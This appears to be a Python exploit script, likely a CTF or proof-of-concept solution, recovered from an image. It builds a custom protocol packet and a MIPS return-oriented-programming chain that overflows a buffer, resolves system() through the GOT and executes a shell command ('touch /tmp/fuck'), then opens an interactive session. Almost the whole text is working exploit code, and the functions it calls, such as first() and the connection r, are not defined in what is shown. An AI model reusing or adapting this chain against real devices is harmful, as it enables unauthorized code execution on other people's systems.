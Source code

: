 ```python
def second():
    payload =  b"FIVI" # magic
    payload += b"\x00\x00\x00\x00"
    payload += b"\n" # newline
    payload += b"\x02\x00" # check1
    payload += b"\x00" * 6 # dummy, affect response byte-11, byte-12
    payload += b"\x52\x54\x00\x12\x34\x56" # magic_string
    payload += b"\x00\x00" # check2
    payload += b"\x8e\x00\x00\x00" # check3
    payload += b64encode(b"1234")
    payload = payload.ljust(93, b'\x00')

    rop = b'A'*(256 + 256 + 68)
    # 0x004016F8 : call system
    # 0x00400c9c : lw $gp, 0x10($sp) ; lw $ra, 0x1c($sp) ; jr $ra ; addiu $sp, $sp, 0x20
    # 0x00401054 : addiu $a0, $sp, 0x118 ; lw $t9, -0x7f9c($gp) ; jalr $t9 ; addiu $a1, $sp, 0x218
    got_system = 0x41310C
    gp = 0x0041b030
    
    ## resolve system
    rop += p32(0) * 2
    rop += p32(0x00400c9c)

    rop += b'\x00' * 0x10 # to 0x10
    rop += p32(gp)
    rop += p32(0) * 2 # to 0x1c
    rop += p32(0x004016F8)

    rop += b'\x00' * 0x54
    rop += p32(0x00400c9c)

    rop += b'\x00' * 0x10 # to 0x10
    rop += p32(got_system + 0x7f9c)
    rop += p32(0) * 2 # to 0x1c
    rop += p32(0x00401054)

    rop += b'\x00' * 0x118
    rop += b'touch /tmp/fuck\x00'
    payload += b64encode(rop)
    print(hex(len(payload)))

    return payload

p1 = first()
p2 = second()

def exp():
    r.send(p2)

def test():
    r.send(p1)

exp()
#test()
r.interactive()
```

